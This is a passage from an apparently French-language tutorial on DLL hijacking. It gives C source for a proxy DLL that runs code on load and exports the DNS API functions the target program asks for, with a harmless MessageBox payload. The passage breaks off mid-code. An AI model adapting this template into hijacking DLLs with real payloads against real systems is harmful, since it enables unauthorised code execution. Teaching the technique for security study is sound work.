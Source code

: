 ![Sh0ckFR dll Hijacking 2](/images/dll-hijacking2.png)

Et là c'est le drame, ça ne fonctionne pas, avons-nous dit notre dernier mot Jean-Pierre ? pas forcément.

Testons de recompiler notre DLL en exportant la fonction `DnsFreeConfigStructure` :

```c
#include <windows.h>

int Main() {
    MessageBoxW(0, L"hello c'est moi Martine", L"Hello", 0);
    return 1;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)Main, NULL, NULL, NULL);
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

__declspec(dllexport) void DnsFreeConfigStructure() { Main(); }
```

On peut voir ici qu'on a rajouté la fonction `DnsFreeConfigStructure` via le code `__declspec(dllexport) void DnsFreeConfigStructure() { Main(); }` qui aura pour but de lancer notre fonction `Main()` si la fonction est bien utilisée par le programme au lancement.

![Sh0ckFR dll Hijacking 3](/images/dll-hijacking3.png)

Toujours un fail mais on a du mieux, on peut voir via le message d'erreur que le programme demande aussi la fonction `DnsQueryConfigAllocEx` pour se lancer, rajoutons la :

```c
#include <windows.h>

int Main() {
    MessageBoxW(0, L"hello c'est moi Martine", L"Hello", 0);
    return 1;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)Main, NULL, NULL, NULL);
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
```